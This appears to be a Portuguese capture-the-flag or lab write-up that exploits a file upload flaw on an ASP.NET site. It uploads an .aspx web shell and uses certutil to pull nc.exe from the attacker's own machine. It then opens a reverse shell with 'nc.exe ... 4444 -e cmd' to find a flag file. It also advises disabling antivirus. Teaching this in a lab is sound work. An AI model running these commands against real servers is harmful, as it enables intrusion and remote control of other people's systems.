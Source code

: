 # Depois de levantar informações especificas como o lugar ontem tem uma falha para upar arquivos e deletar , o lugar onde essee arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo tudo favoravel para subir o shell

## Contexto para subir o shell sabendo a tecnologia do site que é ASP NET eu posso ta procurando um Shell que seja ASPNET.aspx upar no servidor e acessar ele e conseguir injetar comandos 
## 1° - Procurar no google o SHell : github: shell for ASP.aspx 
## 2° - Desligar o antivirus do computador
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)
## 3° - salvar esse shell no arquivo .aspx
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)
## com ele em mãos é so subir no servidor e acessar
## acessando o local onde descobrimos no DIRSEARCH que é o magnam que faz o trabalho do banco de dados
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)
## upando arquivo
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)
## arquivo UPADO só acessa agora
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)
## acessando o arquivo 
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)
## shell.aspx subiu porem voce ainda nao tem cotrole total para navegar nos diretorios para fazer um enumeração de arquivos
## proximo passo é baixar o nc.exe e colocar em uma pasta no seu propio windons instalar o python criar uma pasta colocar o arquivo nc.exe lá dentro e dai iniciar o servidor python com o nc.exe disponivel para dowload
![image](https://github.com/user-attachments/assets/0b399e9c-440c-48b4-b4c5-8434dad98986)
## coloquei em uma pasta com o nome "Nova Pasta" e inciei o servidor pyhton pelo cmd do meu windons
![image](https://github.com/user-attachments/assets/919c4e88-32e4-4459-adcb-700e80e462e0)
## agora para baixar usando o shell que eu subi vai ser usado o comando:
```txt
  certutil -urlcache -split -f http://192.168.100.168/nc.exe c:\users\public\nc.exe

    o Certutil serve para baixar arquivos em um windons e como esta em um server http só vai ser preciso colocar a url,
    com o endereço de ip do meu computador windons e o arquivo que vai ser baixado que é o nc.exe,
    e dai ele vai salvar no users public que qualqr um tem acesso com o nome de nc.exe
```
## depois de rodar o comando vai dizer que deu sucesso:
![image](https://github.com/user-attachments/assets/20dfd46a-d056-4dd6-ad33-0ae350bcd4a4)
## agora é so verificar se realmente ele foi baixado na pasta publica (ele está lá):
![image](https://github.com/user-attachments/assets/7a58ca23-e926-482a-bac3-34088934c625)
## arquivo upado precisamos acessar a shell do nosso win ( colocamos o nc para escutar na porta 4444 ):
![image](https://github.com/user-attachments/assets/a5debaf5-4d6b-424a-aa99-a6b3c91a7d13)
## porta escutando é so executar o comando: 
```txt
   c:\users\public\nc.exe 192.168.100.168 4444 -e cmd 

    nesse comando ele ta executando o arquivo que ta no public passando o ip e a porta e o tipo de comando que vai ser usado 
    o ip : da minha maq win , a porta que foi selecionada para falar que estava escutando do outro lado , e o e para executar o cmd no meu win
```
![image](https://github.com/user-attachments/assets/c7eeac35-cce7-4d21-9c70-6cfaa5b68f9b)
## depois de executar o comando a porta que esta escutando vai receber o cmd 
![image](https://github.com/user-attachments/assets/e768c7eb-f61c-4241-8d7e-e2997555c53c)
## agora é so fazer enumeração de arquivos e encotrar a flag do arquivo sensivel:
![image](https://github.com/user-attachments/assets/12899b1c-0cff-4350-b986-3f8b8d5d0c39)
## Arquivo sensivel encontrado:
![image](https://github.com/user-attachments/assets/822f7405-3985-4a8a-80b7-05fbe0a33b31)






